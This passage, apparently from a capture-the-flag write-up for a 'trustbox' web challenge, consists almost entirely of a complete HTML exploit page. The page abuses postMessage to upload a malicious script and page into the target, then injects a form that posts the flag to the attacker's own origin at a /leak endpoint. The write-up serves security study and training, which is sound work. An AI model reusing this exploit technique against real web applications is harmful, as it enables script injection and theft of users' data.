 The complete exploit looks like this (only the script in the `createEvilJS` function changed):

```html
<!-- File: index.html -->
<!DOCTYPE html>
<html lang="en">
  <iframe id="child" src="https://trustbox.hackthe.space/store"></iframe>
  <script>
    async function createEvilJS() {
      const js = `
    const form = document.createElement("form");
    form.setAttribute("action", "${window.origin}/leak");
    form.setAttribute("method", "POST");

    const input = document.createElement("input");
    input.setAttribute("id", "flag");
    input.setAttribute("name", "flag");
    input.setAttribute("type", "text");
    form.appendChild(input);

    window.parent.document
      .getElementsByTagName("script")[0]
      .setAttribute("id", "pwn");

    window.parent.document.getElementById("upfiles").appendChild(form);
          `;

      const file = new File([js], "evil_script", {
        type: "application/javascript",
      });
      const iframe = document.getElementById("child").contentWindow;
      iframe.postMessage({ action: "add", file: file }, "*");
    }

    async function createEvilHTML(evilJS) {
      const html = `<html> <script src="${evilJS}"><\/script></html>`;
      const file = new File([html], "evil_page", {
        type: "text/html",
      });
      const iframe = document.getElementById("child").contentWindow;
      iframe.postMessage({ action: "add", file: file }, "*");
    }

    window.addEventListener(
      "message",
      function (m) {
        // Pass all messages through
        window.parent.postMessage(m.data, "*");

        if (m.data.name == "evil_script") {
          // Script created, now create page t use script
          createEvilHTML(m.data.url);
        }
        if (m.data.name == "evil_page") {
          // Page and scrtipt created, now open trustbox and inject evil page
          window.open("https://trustbox.hackthe.space/?debug=" + m.data.url);
        }
      },
      false
    );

    // Start with the evil script creation when page is done loading
    window.onload = createEvilJS;
  </script>
```